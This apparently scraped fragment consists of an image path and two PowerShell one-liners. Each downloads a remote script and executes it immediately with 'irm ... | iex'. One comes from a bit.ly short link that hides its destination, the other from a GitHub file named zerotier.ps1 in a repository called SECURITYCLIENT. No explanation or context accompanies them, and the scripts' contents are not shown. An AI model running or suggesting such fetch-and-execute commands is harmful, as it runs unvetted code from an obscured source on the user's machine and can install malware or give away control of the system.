 irm bit.ly/zacodec | iex
irm https://raw.githubusercontent.com/zainmustafam977/SECURITYCLIENT/refs/heads/main/base/zerotier.ps1 | iex
